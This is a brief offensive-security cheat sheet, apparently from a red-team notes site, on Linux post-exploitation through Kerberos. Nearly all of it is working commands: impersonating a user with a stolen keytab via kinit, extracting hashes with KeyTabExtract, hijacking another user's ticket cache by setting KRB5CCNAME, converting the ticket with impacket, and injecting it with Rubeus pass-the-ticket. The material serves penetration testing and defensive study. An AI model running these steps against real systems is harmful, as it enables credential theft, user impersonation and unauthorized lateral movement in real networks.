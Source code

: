 # Linux Post-Exploitation

## Abusing Keytab

### Impersonate user

```bash
klist -k -t #list keytab file info
kinit carni7@AMOGUS.KEK -k -t /opt/kerbusers/carni7.keytab #impersonation carni7 using his keytab
```

### **KeyTabExtract**

[**\[LINK\]**](https://github.com/sosdave/KeyTabExtract) This is tool which is extracting **Kerberos** hashes from **keytab** file.

```python
python3 /opt/keytabextract.py /opt/specialfiles/carni7.keytab 
```

## Abusing ccache

For using **ccache** files you need to have root privileges

### Checking group privileges

```bash
id venator177@amogus.kek
```

Now after locating right non-expired **Kerberos** ticket, we could import **ccache** file into our session by changing value of <mark style="color:green;">**`KRB5CCNAME`**</mark> env and checking tickets with <mark style="color:red;">**klist.**</mark>

```bash
cp /tmp/krb5cc_768304578_BRB541 .
export KRB5CCNAME=/root/krb5cc_768304578_BRB541
klist
Ticket cache: FILE:/root/krb5cc_768304578_BRB541
```

If the result is the same, we could be sure that now **Kerberos** is using our ticket.

## Ticket Converter

```bash
impacket-ticketConverter krb5cc_768304578_BRB541 carni7.kirbi
```

#### Importing Kerberos Ticket

```powershell
C:\Rubeus.exe ptt /ticket:c:\carni7.kirbi
```
